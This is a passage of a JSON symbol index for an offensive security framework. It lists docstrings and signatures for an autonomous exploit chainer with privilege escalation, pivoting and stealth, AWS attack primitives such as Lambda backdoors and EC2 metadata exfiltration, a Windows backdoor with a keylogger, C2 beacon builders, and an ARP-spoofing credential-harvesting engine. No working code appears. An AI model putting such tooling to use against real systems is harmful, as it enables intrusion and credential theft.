while it runs.", "kind": "function", "line": 677, "name": "execute_shell_verb", "signature": "def execute_shell_verb(shell, command, timeout_sec, on_output)"}, {"doc": "Track a live streaming process for cancellation.", "kind": "function", "line": 775, "name": "_register_process", "signature": "def _register_process(process)"}, {"doc": "Drop a finished streaming process from the tracker.", "kind": "function", "line": 781, "name": "_unregister_process", "signature": "def _unregister_process(process)"}, {"doc": "Register a live child process for global cancellation.", "kind": "function", "line": 787, "name": "track_process", "signature": "def track_process(process)"}, {"doc": "Drop a finished child process from the cancellation registry.", "kind": "function", "line": 792, "name": "untrack_process", "signature": "def untrack_process(process)"}, {"doc": "Kill every live streaming process group (operator Ctrl+C).\n\nReturns:\n    Number of process groups signalled.", "kind": "function", "line": 797, "name": "cancel_running_commands", "signature": "def cancel_running_commands()"}, {"doc": "Run a bash command streaming lines while capturing the output.\n\nArgs:\n    command: Shell command line (pipes/redirects allowed, gated by\n        the guard, scope and constraint layers before it gets here).\n    on_output: Optional callback receiving each output line live.\n    timeout_sec: Hard timeout; the process is killed on expiry.\n\nReturns:\n    Full captured output, or a TIMEOUT/error transcript line.", "kind": "function", "line": 820, "name": "execute_streaming", "signature": "def execute_streaming(command, on_output, timeout_sec)"}, {"kind": "method", "line": 659, "name": "__init__", "signature": "def __init__(self, observer)"}, {"doc": "Capture text and stream the chunk to the observer once.", "kind": "method", "line": 664, "name": "write", "signature": "def write(self, data)"}, {"kind": "function", "line": 700, "name": "_invoke", "signature": "def _invoke()"}, {"kind": "function", "line": 711, "name": "_target", "signature": "def _target()"}, {"kind": "function", "line": 852, "name": "_kill", "signature": "def _kill()"}]}, {"doc": "Autonomous Exploitation Engine — AI-powered self-adapting exploit chainer.  Provides an ``AutonomousExploitEngine`` that reads the current world model, ranks exploit candidates by service version, generates custom payloads on the fly, executes them through the framework, and adapts its strategy based on results. Designed to work with or without an external LLM — falls back to heuristic matching when no API key is configured.  Architecture: ReconFeeder -> TargetProfiler -> ExploitRanker -> PayloadFactory -> Executor ^                                                                    | |________________________ Feedback Loop ____________________________|  Security: No exec/eval of untrusted input. All payloads go through the existing ``modules/payload_factory.py`` which validates templates. Shell commands are templated from ``payload.json`` only — no raw user input accepted.  Usage: from modules.autonomous_exploit_engine import AutonomousExploitEngine engine = AutonomousExploitEngine() results = engine.hunt(target=\"10.10.11.5\")", "id": "modules/autonomous_exploit_engine.py", "kind": "module", "label": "autonomous_exploit_engine.py", "language": "py", "sha256": "1696c427216168dd", "symbol_count": 46, "symbols": [{"doc": "Immutable snapshot of a target's attack surface.", "kind": "class", "line": 59, "name": "TargetProfile", "signature": "class TargetProfile"}, {"doc": "A ranked exploit ready for execution.", "kind": "class", "line": 74, "name": "ExploitCandidate", "signature": "class ExploitCandidate"}, {"doc": "Outcome of a single exploit attempt.", "kind": "class", "line": 89, "name": "ExploitResult", "signature": "class ExploitResult"}, {"doc": "Self-adapting exploit engine that chains through a target's attack surface.\n\nPublic methods:\n    hunt(target) -> list[ExploitResult]\n    profile(target) -> TargetProfile\n    rank_exploits(profile) -> list[ExploitCandidate]\n    execute_candidate(candidate, profile) -> ExploitResult", "kind": "class", "line": 101, "name": "AutonomousExploitEngine", "signature": "class AutonomousExploitEngine"}, {"kind": "method", "line": 114, "name": "__init__", "signature": "def __init__(self)"}, {"kind": "method", "line": 134, "name": "get_instance", "signature": "def get_instance(cls)"}, {"doc": "Execute a full autonomous exploitation chain against a target.\n\nArgs:\n    target: IP address or hostname of the target.\n    max_exploits: Maximum exploit attempts before stopping.\n    profile: Optional cached TargetProfile (avoids re-profiling).\n\nReturns:\n    List of ExploitResult objects, one per attempt.", "kind": "method", "line": 145, "name": "hunt", "signature": "def hunt(self, target, max_exploits, profile)"}, {"doc": "Re-execute exploit chain using captured credentials.\n\nWhen the world model receives new credentials this method re-ranks\nexploit candidates with credential awareness, injecting discovered\nusernames and passwords into authenticated strategies. Returns only\nthe new results from this retry.\n\nArgs:\n    target: IP address of the target.\n    credentials: Optional list of credential dicts with ``username``,\n        ``password``, ``hash`` keys. When omitted, reads from world model.\n\nReturns:\n    Newly executed ExploitResult objects.", "kind": "method", "line": 184, "name": "retry_with_credentials", "signature": "def retry_with_credentials(self, target, credentials)"}, {"doc": "Re-rank exploit candidates boosting those usable with available credentials.\n\nDetects whether credentials are plaintext (user:pass), hash-based\n(NTLM), or empty and adjusts confidence scores accordingly.\n\nArgs:\n    profile: Target profile.\n    credentials: List of credential dicts.\n\nReturns:\n    Re-ranked list of ExploitCandidate sorted by boosted confidence.", "kind": "method", "line": 241, "name": "_credential_aware_rank", "signature": "def _credential_aware_rank(self, profile, credentials)"}, {"kind": "method", "line": 284, "name": "_filter_placeholder_creds", "signature": "def _filter_placeholder_creds(credentials)"}, {"doc": "Build a TargetProfile from existing recon data.\n\nArgs:\n    target: IP address to profile.\n\nReturns:\n    Immutable TargetProfile.", "kind": "method", "line": 328, "name": "profile", "signature": "def profile(self, target)"}, {"doc": "Rank exploit candidates by confidence for a given profile.\n\nArgs:\n    profile: TargetProfile built from recon.\n\nReturns:\n    Ranked list of ExploitCandidate objects.", "kind": "method", "line": 389, "name": "rank_exploits", "signature": "def rank_exploits(self, profile)"}, {"doc": "Execute a single exploit candidate and return the result.\n\nArgs:\n    candidate: The ExploitCandidate to attempt.\n    profile: The current TargetProfile.\n\nReturns:\n    ExploitResult with outcome.", "kind": "method", "line": 412, "name": "execute_candidate", "signature": "def execute_candidate(self, candidate, profile)"}, {"doc": "Match a service against known exploit patterns.\n\nArgs:\n    service: Service name (e.g. http, smb, ssh).\n    product: Product name (e.g. Apache, OpenSSH).\n    version: Version string.\n\nReturns:\n    List of matching ExploitCandidate objects.", "kind": "method", "line": 454, "name": "_match_exploit_db", "signature": "def _match_exploit_db(self, service, product, version)"}, {"doc": "Heuristic exploit matching without external DB.\n\nArgs:\n    service: Service name.\n    product: Product name.\n    version: Version string.\n\nReturns:\n    List of heuristic ExploitCandidate objects.", "kind": "method", "line": 492, "name": "_heuristic_match", "signature": "def _heuristic_match(self, service, product, version)"}, {"doc": "Generate exploit candidates based on port number alone.\n\nArgs:\n    port: Port number as string.\n    os_type: Detected OS type.\n\nReturns:\n    List of port-based ExploitCandidate objects.", "kind": "method", "line": 962, "name": "_match_by_port", "signature": "def _match_by_port(self, port, os_type)"}, {"doc": "Score how well an exploit matches the target service.\n\nArgs:\n    exploit: Exploit metadata dict.\n    service: Target service name.\n    product: Target product name.\n    version: Target version string.\n\nReturns:\n    Confidence score 0.0-1.0.", "kind": "method", "line": 1019, "name": "_scorer", "signature": "def _scorer(self, exploit, service, product, version)"}, {"doc": "Execute the exploit through LazyOwn's command runner.\n\nArgs:\n    candidate: The exploit to run.\n    profile: Target profile.\n\nReturns:\n    Command output as string.", "kind": "method", "line": 1059, "name": "_run_exploit", "signature": "def _run_exploit(self, candidate, profile)"}, {"doc": "Resolve the actual port number for the candidate's service.\n\nArgs:\n    candidate: The exploit candidate.\n    profile: Target profile with service details.\n\nReturns:\n    Port number as string, or the service name if unresolvable.", "kind": "method", "line": 1088, "name": "_resolve_port", "signature": "def _resolve_port(self, candidate, profile)"}, {"doc": "Build the command chain to execute an exploit candidate.\n\nArgs:\n    candidate: The exploit to build a chain for.\n    profile: Target profile.\n\nReturns:\n    List of shell command strings.", "kind": "method", "line": 1105, "name": "_build_command_chain", "signature": "def _build_command_chain(self, candidate, profile)"}, {"doc": "Check if exploit output indicates success.\n\nArgs:\n    output: Command output string.\n    candidate: The exploit that was attempted.\n\nReturns:\n    True if signs of success detected.", "kind": "method", "line": 1237, "name": "_check_success", "signature": "def _check_success(self, output, candidate)"}, {"doc": "Detect if a shell was obtained from exploit output.\n\nArgs:\n    output: Command output to analyze.\n\nReturns:\n    True if shell indicators found.", "kind": "method", "line": 1330, "name": "_detect_shell", "signature": "def _detect_shell(self, output)"}, {"doc": "Determine current access level to target.\n\nArgs:\n    ip: Target IP.\n    credentials: Known credentials list.\n\nReturns:\n    Access level string: none, user, admin, system.", "kind": "method", "line": 1358, "name": "_determine_access_level", "signature": "def _determine_access_level(self, ip, credentials)"}, {"doc": "Register a new session after successful exploitation.\n\nArgs:\n    ip: Target IP.\n    output: Session output.\n\nReturns:\n    Session ID string.", "kind": "method", "line": 1388, "name": "_register_session", "signature": "def _register_session(self, ip, output)"}, {"doc": "Load the payload.json configuration.\n\nReturns:\n    Configuration dict.", "kind": "method", "line": 1416, "name": "_load_payload_config", "signature": "def _load_payload_config(self)"}, {"doc": "Load the world model for a given target.\n\nArgs:\n    target: Target IP address.\n\nReturns:\n    World model dict or empty dict.", "kind": "method", "line": 1427, "name": "_load_world_model", "signature": "def _load_world_model(self, target)"}, {"doc": "Read os_id from payload.json and return OS type string.\n\nReturns:\n    'linux', 'windows', or None if not set.", "kind": "method", "line": 1524, "name": "_detect_os_from_payload", "signature": "def _detect_os_from_payload(self)"}, {"doc": "Fallback: parse nmap XML files for service data.\n\nArgs:\n    target: Target IP address.\n\nReturns:\n    Dict with services or empty dict.", "kind": "method", "line": 1542, "name": "_load_from_nmap_xml", "signature": "def _load_from_nmap_xml(self, target)"}, {"doc": "Normalize OS type string.\n\nArgs:\n    profile: Target profile.\n\nReturns:\n    Normalized OS type.", "kind": "method", "line": 1621, "name": "_get_os_type", "signature": "def _get_os_type(self, profile)"}, {"doc": "Apply a random delay based on current stealth level.", "kind": "method", "line": 1637, "name": "_apply_stealth_delay", "signature": "def _apply_stealth_delay(self)"}, {"doc": "Scan for vulnerabilities using NSE output and heuristic version matching.\n\nArgs:\n    profile: TargetProfile to scan.\n\nReturns:\n    List of vuln dicts with keys: cve, severity, description, affected_service, fix_version.", "kind": "method", "line": 1648, "name": "scan_vulnerabilities", "signature": "def scan_vulnerabilities(self, profile)"}, {"doc": "Parse Nmap NSE vuln script output from sessions/ directory.\n\nArgs:\n    target_ip: Target IP address.\n\nReturns:\n    List of parsed vulnerability dicts.", "kind": "method", "line": 1674, "name": "_parse_nse_output", "signature": "def _parse_nse_output(self, target_ip)"}, {"doc": "Extract CVE references and severity info from text output.\n\nArgs:\n    text: Raw text containing CVE references.\n\nReturns:\n    List of extracted vuln dicts.", "kind": "method", "line": 1709, "name": "_extract_cves_from_text", "signature": "def _extract_cves_from_text(self, text)"}, {"doc": "Heuristic vuln matching based on service banners from profile.\n\nArgs:\n    profile: TargetProfile with service information.\n\nReturns:\n    List of vuln dicts matched from heuristic DB.", "kind": "method", "line": 1757, "name": "_match_service_banners", "signature": "def _match_service_banners(self, profile)"}, {"doc": "Cross-reference known CVEs from the profile's vuln_found field.\n\nArgs:\n    profile: TargetProfile with vulns_found data.\n\nReturns:\n    List of vuln dicts from profile data.", "kind": "method", "line": 1937, "name": "_check_known_cves", "signature": "def _check_known_cves(self, profile)"}, {"doc": "Run privilege escalation checks and attempt escalation techniques.\n\nArgs:\n    profile: TargetProfile of the compromised host.\n    session_id: Session ID of the active shell.\n\nReturns:\n    List of ExploitResult for each privesc attempt.", "kind": "method", "line": 1963, "name": "chain_privesc", "signature": "def chain_privesc(self, profile, session_id)"}, {"doc": "Run standard Linux privilege escalation enumeration commands.\n\nArgs:\n    profile: TargetProfile.\n    session_id: Session ID.\n\nReturns:\n    Dict of findings categorized by type.", "kind": "method", "line": 1991, "name": "_run_linux_privesc_checks", "signature": "def _run_linux_privesc_checks(self, profile, session_id)"}, {"doc": "Run standard Windows privilege escalation enumeration commands.\n\nArgs:\n    profile: TargetProfile.\n    session_id: Session ID.\n\nReturns:\n    Dict of findings categorized by type.", "kind": "method", "line": 2060, "name": "_run_windows_privesc_checks", "signature": "def _run_windows_privesc_checks(self, profile, session_id)"}, {"doc": "Match enumeration findings against known privesc techniques.\n\nArgs:\n    findings: Results from privesc checks.\n    os_type: Target OS type.\n\nReturns:\n    List of technique dicts sorted by confidence.", "kind": "method", "line": 2103, "name": "_match_privesc_techniques", "signature": "def _match_privesc_techniques(self, findings, os_type)"}, {"doc": "Attempt a single privilege escalation technique.\n\nArgs:\n    technique: Technique dict with name, strategy, description.\n    profile: TargetProfile.\n    session_id: Session ID.\n\nReturns:\n    ExploitResult with outcome.", "kind": "method", "line": 2293, "name": "_execute_privesc", "signature": "def _execute_privesc(self, technique, profile, session_id)"}, {"doc": "Discover internal interfaces and trigger auto-pivoting through a compromised host.\n\nArgs:\n    profile: TargetProfile of the compromised host.\n    session_id: Session ID of the active shell.\n\nReturns:\n    Dict with pivot chain info: subnets, routes, proxychains_config.", "kind": "method", "line": 2393, "name": "trigger_pivot", "signature": "def trigger_pivot(self, profile, session_id)"}, {"doc": "Run commands to discover internal interfaces and routing.\n\nArgs:\n    profile: TargetProfile.\n\nReturns:\n    Dict with internal_ips, routes, and raw command_output.", "kind": "method", "line": 2458, "name": "_discover_internal_interfaces", "signature": "def _discover_internal_interfaces(self, profile)"}, {"doc": "Configure the engine's stealth level for evasion.\n\nArgs:\n    stealth_level: One of \"low\", \"medium\", \"high\", \"paranoid\".\n\nReturns:\n    Dict with the active stealth configuration.", "kind": "method", "line": 2519, "name": "enable_stealth", "signature": "def enable_stealth(self, stealth_level)"}, {"doc": "Return nmap flags appropriate for the current stealth level.\n\nReturns:\n    List of nmap argument strings.", "kind": "method", "line": 2564, "name": "_get_stealth_scan_flags", "signature": "def _get_stealth_scan_flags(self)"}, {"doc": "Execute the full autonomous exploit chain against a target.\n\nRuns scan -> profile -> rank -> exploit with optional privesc and pivot.\n\nArgs:\n    target: IP address or hostname.\n    enable_pivot: Trigger auto-pivot after successful exploitation.\n    enable_privesc: Attempt privilege escalation after getting a shell.\n    stealth: Stealth level: \"low\", \"medium\", \"high\", \"paranoid\".\n\nReturns:\n    Comprehensive results dict with summary.", "kind": "method", "line": 2583, "name": "full_auto_pwn", "signature": "def full_auto_pwn(cls, target, enable_pivot, enable_privesc, stealth)"}, {"kind": "function", "line": 299, "name": "_is_placeholder", "signature": "def _is_placeholder(value)"}]}, {"doc": "AWS privilege escalation — IAM enumeration, Lambda backdoors, STS role chaining.  Provides attack primitives for Amazon Web Services: IAM privilege escalation paths, EC2 instance metadata abuse, Lambda function backdooring, STS assume role chaining, CloudFormation drift exploitation, and S3 bucket enumeration.  Uses boto3 for API operations when available; falls back to curl/HTTP commands.", "id": "modules/aws_attacks.py", "kind": "module", "label": "aws_attacks.py", "language": "py", "sha256": "65f14fc5d882ca36", "symbol_count": 11, "symbols": [{"doc": "Configuration for AWS attack operations.\n\nAttributes:\n    access_key_id: AWS access key.\n    secret_access_key: AWS secret key.\n    session_token: STS session token (for temporary credentials).\n    region: AWS region.\n    account_id: AWS account ID.\n    role_arn: IAM role ARN to target.\n    user_name: IAM user to enumerate.", "kind": "class", "line": 58, "name": "AWSConfig", "signature": "class AWSConfig"}, {"doc": "Execute AWS privilege escalation and enumeration attacks.\n\nProvides IAM permission enumeration, Lambda backdoor insertion,\nSTS role chaining, EC2 user data exfiltration, and S3 data access.\n\nAttributes:\n    config: AWSConfig with credentials and target.\n    client_cache: Cached boto3 clients.", "kind": "class", "line": 80, "name": "AWSAttackEngine", "signature": "class AWSAttackEngine"}, {"kind": "method", "line": 91, "name": "__init__", "signature": "def __init__(self, config)"}, {"doc": "Enumerate IAM permissions for the current user/role.\n\nSimulates permission boundary testing to identify privilege\nescalation paths. Returns structured data for analysis.\n\nReturns:\n    Dict with user info, policies, groups, and potential privesc paths.", "kind": "method", "line": 95, "name": "enumerate_iam_permissions", "signature": "def enumerate_iam_permissions(self)"}, {"doc": "Plan a Lambda backdoor for privilege escalation.\n\nIf the attacker can iam:PassRole and lambda:UpdateFunctionCode,\nthey can modify an existing Lambda to exfiltrate its role credentials.\n\nArgs:\n    function_name: Target Lambda function name.\n\nReturns:\n    Dict with Lambda backdooring commands.", "kind": "method", "line": 127, "name": "lambda_backdoor", "signature": "def lambda_backdoor(self, function_name)"}, {"doc": "Enumerate and exploit STS AssumeRole privilege escalation chains.\n\nDiscovers all roles the current user can assume and provides\nlateral movement via role chaining to elevated access.\n\nArgs:\n    target_role_arn: Specific role ARN to target.\n\nReturns:\n    Dict with role enumeration and chaining commands.", "kind": "method", "line": 155, "name": "sts_role_chain", "signature": "def sts_role_chain(self, target_role_arn)"}, {"doc": "Extract sensitive data from EC2 instance user data and metadata.\n\nEC2 user data often contains deployment scripts with hardcoded\ncredentials, API keys, and configuration secrets.\n\nReturns:\n    Dict with IMDSv1/v2 commands and user data extraction.", "kind": "method", "line": 181, "name": "ec2_user_data_exfil", "signature": "def ec2_user_data_exfil(self)"}, {"doc": "Enumerate S3 buckets and their permissions.\n\nMaps public/private buckets, checks for write access, and identifies\nbuckets with sensitive naming patterns.\n\nReturns:\n    Dict with S3 enumeration commands and bucket patterns.", "kind": "method", "line": 206, "name": "s3_enumeration", "signature": "def s3_enumeration(self)"}, {"doc": "Exploit CloudFormation for privilege escalation.\n\nCloudFormation executes with the privileges of the user who created\nthe stack or the stack's service role. Modifying CF templates can\ncreate IAM resources with elevated permissions.\n\nReturns:\n    Dict with CF drift exploitation commands.", "kind": "method", "line": 242, "name": "cloudformation_drift", "signature": "def cloudformation_drift(self)"}, {"doc": "Abuse SSM to gain shell access to EC2 instances.\n\nIf a user has ssm:StartSession, they can open interactive shells\nto managed instances.\n\nReturns:\n    Dict with SSM abuse commands.", "kind": "method", "line": 274, "name": "ec2_ssm_session_abuse", "signature": "def ec2_ssm_session_abuse(self)"}, {"kind": "method", "line": 293, "name": "summary", "signature": "def summary(self)"}]}, {"id": "modules/backdoor/backdoor.c", "kind": "module", "label": "backdoor.c", "language": "c", "sha256": "c60e0564f614cd3a", "symbol_count": 5, "symbols": [{"kind": "function", "line": 18, "name": "bootRun", "signature": "int bootRun()"}, {"kind": "function", "line": 49, "name": "str_cut", "signature": "char *\nstr_cut(char str[], int slice_from, int slice_to)"}, {"kind": "function", "line": 84, "name": "Shell", "signature": "void Shell()"}, {"kind": "function", "line": 125, "name": "WinMain", "signature": "int APIENTRY WinMain(HINSTANCE hInstance, HINSTANCE hPrev, LPSTR lpCmdLine, int nCmdShow)"}, {"kind": "macro", "line": 14, "name": "bzero", "signature": "#define bzero(p, size)"}]}, {"id": "modules/backdoor/keylogger.h", "kind": "module", "label": "keylogger.h", "language": "h", "sha256": "4704b5e6120858f3", "symbol_count": 1, "symbols": [{"kind": "function", "line": 1, "name": "logg", "signature": "DWORD WINAPI logg(LPVOID lpParam)"}]}, {"id": "modules/backdoor/server.c", "kind": "module", "label": "server.c", "language": "c", "sha256": "662477da23c2b9c4", "symbol_count": 1, "symbols": [{"kind": "function", "line": 10, "name": "main", "signature": "int main()"}]}, {"doc": "Beacon configuration builder — wires profile engines into beacon compile-time config.  This module bridges the C2 profile engine, sleep obfuscation engine, socks proxy engine, and BOF registry into concrete `#define` directives and template variables that ``gen_beacon.sh`` and ``c2_builder.py`` consume to produce profile-aware beacons.  Contracts: - BeaconConfig: dataclass holding all beacon compile-time definitions - BeaconConfigBuilder: builds a BeaconConfig from payload + engine state - generate_beacon_profile_args: produces CLI args for gen_beacon.sh - generate_go_implant_template_vars: produces template context for Go implant - generate_bof_execution_command: produces ``bof:<url>`` commands for beacons  Design (SOLID): - Single Responsibility: only concerns compile-time config generation - Open/Closed: new engines registered via dict, not code changes - Liskov: all engine outputs are dicts, safely composable - Interface Segregation: outputs are separate for C beacon vs Go implant - Dependency Inversion: depends on engine interfaces, not concrete beacons  Usage: from modules.beacon_config_builder import BeaconConfigBuilder  builder = BeaconConfigBuilder.from_payload(payload) config = builder.build() args = config.to_gen_beacon_args() go_vars = config.to_go_implant_vars()", "id": "modules/beacon_config_builder.py", "kind": "module", "label": "beacon_config_builder.py", "language": "py", "sha256": "26594122500717b9", "symbol_count": 14, "symbols": [{"doc": "Complete beacon compile-time configuration.\n\nAll fields map directly to ``#define`` directives in ``gen_beacon.sh``\nor template variables in the Go implant.", "kind": "class", "line": 44, "name": "BeaconConfig", "signature": "class BeaconConfig"}, {"doc": "Builds BeaconConfig from payload and engine state.\n\nComposes data from ``payload.json``, ``modules/c2_profile_engine``,\n``modules/sleep_obfuscation``, and ``modules/socks_proxy`` into a\nsingle BeaconConfig ready for beacon compilation.", "kind": "class", "line": 237, "name": "BeaconConfigBuilder", "signature": "class BeaconConfigBuilder"}, {"doc": "Generate a ``bof:<url>`` command that the C beacon executes.\n\nThe C beacon downloads the BOF from the C2 endpoint and executes it\nvia its internal COFFLoader. This function produces the exact command\nstring the operator should issue to the C2 to deploy a BOF.\n\nArgs:\n    bof_name: BOF catalog name (e.g., ``ldap_enum``).\n    c2_url: C2 base URL (e.g., ``https://10.10.14.1:4444``).\n    client_id: Target beacon client ID.\n    args: Optional arguments to pass to the BOF.\n\nReturns:\n    A command string like ``bof:https://10.10.14.1:4444/download/bofs/ldap_enum``.", "kind": "function", "line": 416, "name": "generate_bof_execution_command", "signature": "def generate_bof_execution_command(bof_name, c2_url, client_id, args, bofs_dir)"}, {"doc": "Produce CLI arguments for gen_beacon.sh.", "kind": "method", "line": 117, "name": "to_gen_beacon_args", "signature": "def to_gen_beacon_args(self)"}, {"doc": "Produce template variables for the Go implant builder.", "kind": "method", "line": 137, "name": "to_go_implant_vars", "signature": "def to_go_implant_vars(self)"}, {"doc": "Produce the config.json that beacons fetch on startup.", "kind": "method", "line": 160, "name": "to_config_json", "signature": "def to_config_json(self)"}, {"doc": "Full serialization of beacon config.", "kind": "method", "line": 185, "name": "to_dict", "signature": "def to_dict(self)"}, {"kind": "method", "line": 245, "name": "__init__", "signature": "def __init__(self, payload)"}, {"doc": "Build a complete BeaconConfig.\n\nArgs:\n    name: Optional beacon name override (uses payload line if not set).\n\nReturns:\n    A fully populated BeaconConfig.", "kind": "method", "line": 248, "name": "build", "signature": "def build(self, name)"}, {"doc": "Hydrate TLS, DNS, SMB, WebSocket configs from ProfileEngine.", "kind": "method", "line": 318, "name": "_inject_profile_engine", "signature": "def _inject_profile_engine(self, config)"}, {"doc": "Hydrate sleep obfuscation config from SleepObfuscationEngine.", "kind": "method", "line": 366, "name": "_inject_sleep_engine", "signature": "def _inject_sleep_engine(self, config)"}, {"doc": "Hydrate SOCKS proxy config from SocksProxyEngine.", "kind": "method", "line": 385, "name": "_inject_socks_engine", "signature": "def _inject_socks_engine(self, config)"}, {"doc": "Build a BeaconConfigBuilder from a payload dictionary.", "kind": "method", "line": 403, "name": "from_payload", "signature": "def from_payload(cls, payload)"}, {"doc": "Build a BeaconConfigBuilder by loading payload.json from disk.", "kind": "method", "line": 408, "name": "from_payload_file", "signature": "def from_payload_file(cls, path)"}]}, {"doc": "Persistent beacon command/result history storage.  Owns the on-disk JSONL history for beacon results so the C2, the Flask GUI and GUI2 all replay the same ordered timeline. Kept module-scoped (no Flask dependency) so it is unit-testable without booting the C2 application.  Contract: - ``BeaconHistoryConfig`` holds the storage root and the history suffix. - ``append_record`` appends one record (atomic, safe for concurrent implant polls). - ``read_records`` returns the ordered records for a beacon. - ``records_path`` resolves the history file for a sanitised beacon id.", "id": "modules/beacon_history.py", "kind": "module", "label": "beacon_history.py", "language": "py", "sha256": "088f6233735913bf", "symbol_count": 7, "symbols": [{"doc": "Centralised configuration for beacon history storage.\n\nAttributes:\n    base_dir: Root directory that contains the ``sessions`` folder.\n    history_suffix: File suffix appended to a beacon id for its history.", "kind": "class", "line": 28, "name": "BeaconHistoryConfig", "signature": "class BeaconHistoryConfig"}, {"doc": "Sanitise a beacon id to only URL/file-safe characters.\n\nArgs:\n    client_id: Raw beacon id.\n\nReturns:\n    The sanitised id containing only alphanumerics, dashes and underscores.", "kind": "function", "line": 70, "name": "sanitize_client_id", "signature": "def sanitize_client_id(client_id)"}, {"doc": "Append one beacon result record to the persistent JSONL history.\n\nThe write is atomic (append to a temp file then replace) so concurrent\nbeacon polls never interleave partial lines.\n\nArgs:\n    record: The normalised beacon record dict.\n    config: Storage configuration (defaults to the standard sessions layout).\n\nReturns:\n    True when the append succeeded, False otherwise.", "kind": "function", "line": 82, "name": "append_record", "signature": "def append_record(record, config)"}, {"doc": "Read the ordered JSONL history for a beacon client id (oldest first).\n\nArgs:\n    client_id: The beacon id whose history is requested.\n    config: Storage configuration.\n\nReturns:\n    A list of record dicts in chronological order.", "kind": "function", "line": 116, "name": "read_records", "signature": "def read_records(client_id, config)"}, {"doc": "Resolve the history file path for a beacon client id.\n\nArgs:\n    client_id: The beacon id whose history path is requested.\n    config: Storage configuration.\n\nReturns:\n    The resolved history file path.", "kind": "function", "line": 145, "name": "records_path", "signature": "def records_path(client_id, config)"}, {"doc": "Return the resolved sessions directory under the base dir.", "kind": "method", "line": 39, "name": "sessions_dir", "signature": "def sessions_dir(self)"}, {"doc": "Resolve the history file path for a sanitised beacon client id.\n\nThe resolved path is verified to stay inside the sessions directory\nso a bypassed or weakened sanitisation can never write outside the\nstorage root.\n\nArgs:\n    client_id: Raw beacon id; it is sanitised against path traversal.\n\nReturns:\n    A :class:`pathlib.Path` inside the sessions directory.\n\nRaises:\n    ValueError: When the resulting path would escape the sessions dir.", "kind": "method", "line": 43, "name": "records_path", "signature": "def records_path(self, client_id)"}]}, {"id": "modules/bin2img.py", "kind": "module", "label": "bin2img.py", "language": "py", "sha256": "dcc1ae55f737622e", "symbol_count": 2, "symbols": [{"kind": "function", "line": 7, "name": "binario_a_imagen", "signature": "def binario_a_imagen(binario, imagen_input, imagen_output, block_size)"}, {"kind": "function", "line": 54, "name": "main", "signature": "def main()"}]}, {"doc": "Browser-in-the-Middle (BitM) attack engine.  Automates ARP spoofing, transparent HTTP proxy injection, and credential harvesting. Coordinates bettercap/arpspoof with custom JavaScript payload injection to capture browser sessions, cookies, OAuth tokens, and form submissions from target browsers.", "id": "modules/bitm_engine.py", "kind": "module", "label": "bitm_engine.py", "language": "py", "sha256": "db7415c8fb12793c", "symbol_count": 18, "symbols": [{"doc": "Current state of a BitM campaign.", "kind": "class", "line": 85, "name": "BitMState", "signature": "class BitMState"}, {"doc": "Create the BitM sessions directory if it does not exist.", "kind": "function", "line": 103, "name": "_ensure_bitm_dir", "signature": "def _ensure_bitm_dir()"}, {"doc": "Persist BitM campaign state to disk.\n\nArgs:\n    state: Current BitM campaign state.", "kind": "function", "line": 108, "name": "_save_state", "signature": "def _save_state(state)"}, {"doc": "Load the saved BitM campaign state from disk.\n\nReturns:\n    Saved BitM state, or a fresh empty state.", "kind": "function", "line": 134, "name": "_load_state", "signature": "def _load_state()"}, {"doc": "Build a JavaScript injection payload with attacker IP/port.\n\nArgs:\n    payload_name: Key from JS_INJECT_PAYLOADS.\n    lhost: Attacker IP.\n    lport: Attacker HTTP listener port.\n\nReturns:\n    Minified JavaScript string ready for injection.", "kind": "function", "line": 151, "name": "_build_js_payload", "signature": "def _build_js_payload(payload_name, lhost, lport)"}, {"doc": "Verify a required external tool is on PATH.\n\nArgs:\n    tool: Binary name to check.\n\nReturns:\n    True if the tool is available.", "kind": "function", "line": 168, "name": "_check_tool", "signature": "def _check_tool(tool)"}, {"doc": "Determine the best available ARP spoofing method.\n\nReturns:\n    Method identifier: 'bettercap', 'arpspoof', or 'mitmproxy'.", "kind": "function", "line": 180, "name": "_recommend_method", "signature": "def _recommend_method()"}, {"doc": "Detect the default network interface.\n\nReturns:\n    Interface name (e.g. 'eth0', 'wlan0').", "kind": "function", "line": 195, "name": "_get_default_interface", "signature": "def _get_default_interface()"}, {"doc": "Detect the default gateway IP.\n\nReturns:\n    Gateway IP address string.", "kind": "function", "line": 234, "name": "_get_gateway_ip", "signature": "def _get_gateway_ip()"}, {"doc": "Start a Browser-in-the-Middle attack.\n\nArgs:\n    target_ip: IP address of the victim machine.\n    gateway_ip: Gateway IP (auto-detected if empty).\n    interface: Network interface (auto-detected if empty).\n    lhost: Attacker's IP for callbacks.\n    lport: Attacker's HTTP listener port.\n    method: ARP spoofing method ('bettercap', 'arpspoof', or 'auto').\n    payloads: List of JS payload names to inject.\n\nReturns:\n    Dict with 'success' bool and 'state' or 'error' string.", "kind": "function", "line": 257, "name": "bitm_start", "signature": "def bitm_start(target_ip, gateway_ip, interface, lhost, lport, method, payloads)"}, {"doc": "Start bettercap with ARP spoofing and JS injection.\n\nArgs:\n    target_ip: Victim IP.\n    gateway_ip: Gateway IP.\n    interface: Network interface.\n    lhost: Attacker callback IP.\n    lport: Attacker callback port.\n    js_payload: Combined JavaScript inject string.\n    harvest_path: Log file path.\n\nReturns:\n    Tuple of (success, pid_or_zero).", "kind": "function", "line": 354, "name": "_start_bettercap", "signature": "def _start_bettercap(target_ip, gateway_ip, interface, lhost, lport, js_payload, harvest_path)"}, {"doc": "Start arpspoof + iptables-based traffic interception and JS injection.\n\nArgs:\n    target_ip: Victim IP.\n    gateway_ip: Gateway IP.\n    interface: Network interface.\n    lhost: Attacker callback IP.\n    lport: Attacker callback port.\n    js_payload: Combined JavaScript inject string.\n    harvest_path: Log file path.\n\nReturns:\n    Tuple of (success, pid_or_zero).", "kind": "function", "line": 413, "name": "_start_arpspoof", "signature": "def _start_arpspoof(target_ip, gateway_ip, interface, lhost, lport, js_payload, harvest_path)"}, {"doc": "Stop a running BitM attack and clean up iptables.\n\nReturns:\n    Dict with status and harvested data summary.", "kind": "function", "line": 481, "name": "bitm_stop", "signature": "def bitm_stop()"}, {"doc": "Return the current BitM attack status.\n\nReturns:\n    Dict with active state and campaign details.", "kind": "function", "line": 539, "name": "bitm_status", "signature": "def bitm_status()"}, {"doc": "Inject an additional JS payload into an active BitM session.\n\nArgs:\n    payload_name: Key from JS_INJECT_PAYLOADS to inject.\n\nReturns:\n    Dict with success status.", "kind": "function", "line": 572, "name": "bitm_inject", "signature": "def bitm_inject(payload_name)"}, {"doc": "Return statistics on harvested credentials from the active/past campaign.\n\nReturns:\n    Dict with counts of cookies, form submissions, tokens, keystrokes.", "kind": 